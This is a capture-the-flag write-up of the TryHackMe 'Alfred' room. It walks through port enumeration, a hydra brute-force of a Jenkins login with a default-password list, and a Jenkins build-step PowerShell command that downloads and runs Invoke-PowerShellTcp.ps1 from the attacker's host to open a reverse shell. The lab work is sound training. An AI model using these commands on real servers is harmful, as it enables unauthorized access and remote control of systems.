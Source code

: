 # [THM] - Alfred

[Room link](https://tryhackme.com/room/alfred)

---

## Enumeration

Nmap's result :

```bash
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
8080/tcp open  http-proxy
```

Let's moving on the webserver on the port 80. We can see on email -> alfred@wayneenterprises.com

Nothing is really interesting on the source code. 

Let's get a simple dirb for enumerate the website.

```bash
dirb http://<target_ip>
```

We fond anything.

Now, let's see what is on the port 8080. Jenkins form.

There is the same thing for the previous website, let's run a simple dirb scan.

```bash
dirb http://<target_ip>:8080 -w
```

The return concerne only 403 replies.. We need to connect us for move forward.

---

## Exploitation

After few researchs, i find as the default username on Jenkins is : admin.

We can run a bruteforce with this form with hydra.

```bash
sudo hydra -f -V -l admin -P /usr/share/wordlists/SecLists/Passwords/Default-Credentials/default-passwords.txt 10.10.69.128 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit:loginError" -s 8080
```

We found the credentials admin:admin.

We can move on the porject section and "Configure". There is a "build environment" block which allow us to inject remotly code on the target.

As it tells on the TryHackMe topics, lets save a file with a specific Windows reverse shell on a file called "Invoke-PowerShellTcp.ps1".

Once done, let start a local simple python server on the directory where is our reverse shell.

```bash
$ sudo python3 -m http.server 8000
```

Then, add on the "build environment" section this follow lines (don't forget replace variables) :

```txt
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

Now, we need to run the jenkins pipeline.

Now, we are on the target machine.

```cmd
PS C:\Program Files (x86)\Jenkins\workspace\project>
```

---

## User flag

The user flag is here -> C:\users\bruce\Desktop\user.txt

---

## Root flag

